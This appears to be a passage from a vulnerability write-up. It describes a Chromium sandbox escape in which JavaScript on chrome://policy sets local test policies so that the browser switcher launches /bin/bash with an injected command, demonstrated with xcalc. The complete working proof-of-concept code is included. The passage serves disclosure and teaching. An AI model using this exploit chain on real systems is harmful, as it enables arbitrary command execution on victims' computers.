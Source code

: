 Whenever the browser tries to navigate to `example.com`, the browser switcher will kick in and launch `/bin/bash`. `["-c", "xcalc # https://example.com"]` get passed in as arguments. The `-c` tells bash to run the command specified in the next argument. You may have noticed that the page URL gets substituted into `${url}`, and so to prevent this from messing up the command, we can simply put it behind a `#` which makes it a comment. And thus, we are able to trick Chromium into running `/bin/bash -c 'xcalc # https://example.com'`.

Utilizing this from the `chrome://policy` page is rather simple. I can just set these policies using the aforementioned method, and then call `window.open("https://example.com")` to trigger the browser switcher.

```
let cr = await import('chrome://resources/js/cr.js');
let policy = JSON.stringify([
  { //enable the browser switcher feature
    name: "BrowserSwitcherEnabled",
    value: true,
    level: 1,
    source: 1,
    scope: 1
  }, 
  { //set the browser switcher to trigger on example.com
    name: "BrowserSwitcherUrlList",
    value: ["example.com"],
    level: 1,
    source: 1,
    scope: 1
  }, 
  { //set the executable path to launch
    name: "AlternativeBrowserPath",
    value: "/bin/bash",
    level: 1,
    source: 1,
    scope: 1
  }, 
  { //set the arguments for the executable
    name: "AlternativeBrowserParameters",
    value: ["-c", "xcalc # https://example.com"],
    level: 1,
    source: 1,
    scope: 1
  }
]);

//set the policies listed above
await cr.sendWithPromise("setLocalTestPolicies", policy, "");
//navigate to example.com, which will trigger the browser switcher
window.open("https://example.com")
```

<video src="" control></video>

And that right there is the sandbox escape. We have managed to run an arbitrary shell command via Javascript running on `chrome://policy`.
